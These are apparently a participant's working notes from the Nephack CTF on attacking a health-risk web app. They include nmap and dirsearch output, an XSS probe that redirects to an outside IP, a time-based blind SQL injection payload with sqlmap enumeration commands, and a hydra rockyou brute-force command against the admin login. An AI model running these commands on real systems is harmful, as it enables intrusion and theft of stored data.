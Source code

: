 # Nephack CTF

## Notes

```
link nephack.io =>404 when visited from browser
ping goes through
next step is to nmap, maybe webserver is running on different port

Starting Nmap 7.60 ( https://nmap.org ) at 2020-06-07 19:01 +0545
Nmap scan report for health.nephack.io (172.67.217.104)
Host is up (0.14s latency).
Other addresses for health.nephack.io (not scanned): 104.27.170.29 104.27.171.29 2606:4700:3037::ac43:d968 2606:4700:3034::681b:ab1d 2606:4700:3034::681b:aa1d
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
443/tcp  open  tcpwrapped
8080/tcp open  tcpwrapped
8443/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|WAP|phone
Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.30 seconds


other addressees
104.27.130.251 172.67.158.79 2606:4700:3036::681b:82fb 2606:4700:3033::681b:83fb 2606:4700:3030::ac43:9e4f

stegosuite gave b64encoded data but i was dumb so i ignored
VjFaV2ExWXlSa2hUYTJ4V1lsUnNUbGxzVWxkak1XdDNXa2M1YUZKdGREVlplazVYWVVaYU5scDZhejA9
which translates to health.nephack.io

dirsearch
[11:58:58] 200 -    8B  - /config.php
[11:59:00] 301 -  194B  - /css  ->  http://health.nephack.io/css/
[11:59:01] 301 -  194B  - /db  ->  http://health.nephack.io/db/
[11:59:01] 403 -  580B  - /db/
[11:59:10] 301 -  194B  - /images  ->  http://health.nephack.io/images/
[11:59:11] 200 -    4KB - /index.php
[11:59:13] 301 -  194B  - /js  ->  http://health.nephack.io/js/

inspect about.php
reference to ctf.php

Puzzle Pieces:
---------------------
tos.php
config.php
./result_files/application-07b7790d9aebf9f2b11dc27c84ec4f50.css
<!-- This application is made by @dr.jackal  -->
ip address field
<!-- <input id="total-chol" name="total-chol" type="number" placeholder="130-320" class="form-control input-md" data-range="[130, 320]" required="required"> -->
<!-- This is used to compare the total chalestrol with the db  -->
<!-- Totlal Chalestrol = $total_chalostro -->
float(51) 51 in result3.php response
fieldname and ids are mixedup

xss possible age, HDL, systolic blood pressure, diastolic BP, age field 5, 9, 8, 10, 5

FFUF
------------
index.php               [Status: 200, Size: 4125, Words: 896, Lines: 125]
config.php              [Status: 200, Size: 8, Words: 1, Lines: 5]
footer.php              [Status: 200, Size: 777, Words: 35, Lines: 9]
about.php               [Status: 200, Size: 4999, Words: 1054, Lines: 133]
nav.php
flag => WORKS: gives a link to youtube video
```

Input sent in result page:
Age
HDL
Systotic
Diastolic
Diabetes
Smoking

Fuzzing
Name: aaaaaaaaaa<script>document.location='http://10.9.18.129'</script>

URL: /%00 => gives bad request

SQLMAP on hidden input field:
sqlmap -r request.txt -p total-chol => not vulnerable

_But age field might be vulnerable to timebased attack_
Parameter: age (POST) │
Type: AND/OR time-based blind │
Title: MySQL >= 5.0.12 AND time-based blind │
Payload: total-chol=120&name=Abc&email=nikeshmhr@wearehackerone.com&ip_address=104.27.130.251&address│
=address&age=20' AND SLEEP(5) AND 'oPgV'='oPgV&gender=1&trigly=150&l_d_lip=100&hdl_cholesterol=20&sys_blo│
od_pressue=90&d_blood_pressure=30&smoker=1&diabetes=1

## More attacks:S

sqlmap -r request.txt -p age --current-db
=> heart

sqlmap -r request.txt -p age -D heart --tables

```
[10 tables]
+-------------+
| table 9     |
| admin       |
| calc        |
| calc_value  |
| predication |
| products    |
| res         |
| result      |
| sales_stats |
| users       |
+-------------+
```

sqlmap -r request.txt -p age -D heart -T admin --columns # Need to do this for all tables

list column names => --columns
list no of rows => --count
list column names to dump -C a,b
dump --dump

sqlmap -r request.txt -p age -D heart --fingerprint

3334343434343434334
4433433343434343434333

33343434343434343344433433343434343434333

## dirsearch /

```
[21:47:33] 301 - 194B - /images -> http://health.nephack.io/images/
[21:47:40] 301 - 194B - /css -> http://health.nephack.io/css/
[21:47:44] 301 - 194B - /db -> http://health.nephack.io/db/
[21:47:45] 301 - 194B - /js -> http://health.nephack.io/js/
[21:47:55] 200 - 44B - /flag
[21:55:57] 200 - 4KB - /
[22:03:27] 301 - 194B - /system-management -> http://health.nephack.io/system-management/
```

## dirsearch /system-management

/admin => login page found

Bruteforcing /admin/index.php login page

hydra -l admin -P /media/nikesh/HDD/Security/wordlist/rockyou.txt health.nephack.io http-post-form "/system-management/admin/index.php:username=^USER^&password=^PASS^:sign in now" -V -f

Issue with bruteforce (false positive)
Fix failed message to <script>window.location.href='index.php'</script>

## TODO

dirsearch /db/, /system-management/admin
count no. of entries for table result
